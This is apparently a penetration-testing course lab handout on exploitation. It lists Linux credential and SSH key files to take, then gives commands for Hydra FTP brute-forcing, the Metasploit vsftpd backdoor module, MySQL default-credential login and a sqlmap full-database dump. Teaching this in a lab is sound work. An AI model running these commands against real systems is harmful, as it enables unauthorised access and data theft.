 ```yaml
---
title: '4. Lab 4: Exploitation'
updated: 2023-04-23 04:14:00Z
created: 2023-04-22 20:55:19Z
---
```

# **Exploitation**
- Exploitation is when we take our enumerated targets and capitalize on them.
- REPEAT DISCLAIMER
- As you progress through the exploition process, document your results to the best of your ability for your report. Feel free to look ahead to Lab 5 if you need guidance on what to document.

## **Linux Exfiltration Target Files:**
- These are all target files we should keep a lookout for as they hold confidential information that could compromise CIA
	- /etc/passwd
	- /etc/shadow
	- /etc/issue
	- /etc/group
	- /etc/hostname
	- /etc/ssh/ssh_config
	- /etc/ssh/sshd_config
	- /root/.ssh/id_rsa
	- /root/.ssh/authorized_keys
	- /home/user/.ssh/authorized_keys
	- /home/user/.ssh/id_rsa

## Using Hydra to Bruteforce and Exploit FTP Manually
- Hydra is a credential bruteforcing tool included with Kali Linux
	- Type 'hydra -hh' in your terminal to view Hydra's full functioanlity:
- To bruteforce with Hydra, we will once again use wordlists, but this time we will use credential lists
	- In your Kali terminal type the following:
		- hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://192.168.1.139 -o /home/user/Documents/hydra_ftp.txt
			- The -C flag tells Hydra that the wordlist we are providing has credentials in a 'username:password' format.
			- The -o flag tells Hydra we want to output the results to a text file called hydra_ftp in our Documents folder.
	- Now that we have some credentials from Hydra, type the following in your terminal:
		- ftp 192.168.9.239
			- You will be prompted to log in.
			- Let's try some credential form our bruteforce attack:
			- Username: "user" : Password: "user"
			- Check the current working directory with "pwd"
			- Check the folders and files with "dir"
			- Move back a directory with "cd .."
			- One more time "cd .."
			- "dir" to view all files and folders again
			- See any files worth exfiltrating?
			- Use "get <filename>" in your terminal to retrieve them

## Exploiting FTP With Metasploit
- In your Kali terminal type **msfconsole**
- This is where our vulnerability research comes in handy.
- **msfconsole>** search 'ftp'
	- [NVD - CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523)
- **msfconsole**> use exploit/unix/ftp/vsftpd_234_backdoor

## Exploiting MySql Manually
- To log into MySql, we use the following login template in our terminals:
	- mysql -h {hostname} -u username -p {databasename}
- Since we don't have any credentials yet, let's do some research on default MySql creds
	- [MySQL - What is the Default Username and Password?](https://dbschema.com/2020/04/21/mysql-default-username-password/#:~:text=The%20default%20user%20for%20MySQL,it%20and%20choose%20another%20one.)
- Using info from our research, we can try the default credentials for MySql
- In your terminal type:
	- mysql -u root -h 192.168.1.103 -p
		- Here we use the -u flag to specify the username 'root'
		- Since the default password for MySql is empty, we leave the -p (password) flag empty
- Using MySQL in the terminal:
	- From the mysql> prompt:
	- SHOW DATABASES
		- "use 'database_name'"
			- SHOW TABLES

## Exploiting MySql With SqlMap
- You may have noticed some of the other options for SqlMap in the enumeration step. Now is when we get to use them.
- In your terminal, type the following:
	- sqlmap -d "mysql://root:@192.168.9.239:3306/" ---dump-all --output-dir=/home/user/Documents/ 
	- This step dumps the contents of the entire database to our machine. Take a look.
	

